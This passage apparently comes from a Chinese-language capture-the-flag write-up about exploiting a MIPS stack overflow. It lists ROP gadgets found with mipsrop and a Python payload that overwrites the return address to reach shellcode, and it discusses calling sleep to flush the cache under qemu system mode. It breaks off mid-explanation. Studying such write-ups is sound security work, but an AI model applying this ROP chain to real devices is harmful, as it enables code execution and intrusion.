 `mipsrop.find("move    $t9, $s3")`
找到以下gadget：
```asm
.text:000F60D4                 addiu   $a1, $sp, 0xB8+var_A0  # 控制shellcode给a1寄存器
.text:000F60D8                 move    $t9, $s3 #跳向s3，s3可以指向a1，从而跳转到shellcode
.text:000F60DC                 jalr    $t9
```
所以接下来的任务是要找能够跳转到a1的gadget。
```----------------------------------------------------------------------------------------------------------------
|  Address     |  Action                                              |  Control Jump                          |
----------------------------------------------------------------------------------------------------------------
|  0x0011C68C  |  move $t9,$a1                                        |  jalr  $a1                             |
----------------------------------------------------------------------------------------------------------------
```
很幸运只有这一个：
```asm
.text:0011C68C                 move    $t9, $a1
.text:0011C690                 move    $a1, $a0
.text:0011C694                 jalr    $t9
```
此时，可以跳向a1，而a1已经指向了shellcode，这个调用链完成了。可以得到以下rop链完成覆盖返回地址跳到shellcode。
```python
set_s3_addr = 0x0A0C7C
# .text:000A0C7C                 lw      $ra, 0x2C+var_s10($sp)
# .text:000A0C80                 lw      $s3, 0x2C+var_sC($sp)
# .text:000A0C84                 lw      $s2, 0x2C+var_s8($sp)
# .text:000A0C88                 lw      $s1, 0x2C+var_s4($sp)
# .text:000A0C8C                 lw      $s0, 0x2C+var_s0($sp)
# .text:000A0C90                 jr      $ra
# .text:000A0C94                 addiu   $sp, 0x40
addiu_a1_sp = 0xF60D4
# .text:000F60D4                 addiu   $a1, $sp, 24
# .text:000F60D8                 move    $t9, $s3
# .text:000F60DC                 jalr    $t9
jr_a1 = 0x11C68C
# .text:0011C68C                 move    $t9, $a1
# .text:0011C690                 move    $a1, $a0
# .text:0011C694                 jalr    $t9

payload =  ''
payload += 'a'*508
payload += p32(set_s3_addr+libc_base)           
payload += 'b'*44
payload += '0000'						#s0
payload += '1111'	                    #s1
payload += '2222'		                #s2
payload += p32(jr_a1+libc_base)			#s3
payload += p32(addiu_a1_sp+libc_base)	#ra    
payload += 'd'*24
payload += shellcode
```
还有一个点就是这个题部署的时候是用户模式部署的，qemu的用户模式解释汇编指令的时候，qemu翻译的特点导致指令流水有时候表现不出来，所以这里并没有调用函数去将数据区刷新到指令区域也是可以拿到shell的；但是如果题目使用system模式部署，添加调用函数刷新数据区域再跳转到shellcode就很必要了，这里再找两个gadget实现调用函数后再跳转到a1处的shellcode。这里挑选sleep函数比较方便。
首先设置sleep参数1，跳转到s1
`mipsrop.find("li      $a0, 1")`
```asm
.text:00124474                 move    $t9, $s1
.text:00124478                 jalr    $t9 ; close
.text:0012447C                 li      $a0, 1          
```
在s1处放置下一段gadget，调用sleep函数，这里寻找能实现跳转到s2最好还能控制ra和其他s寄存器以使得能继续进行上述第一个跳转到shellcode的gadget。这里找到以下
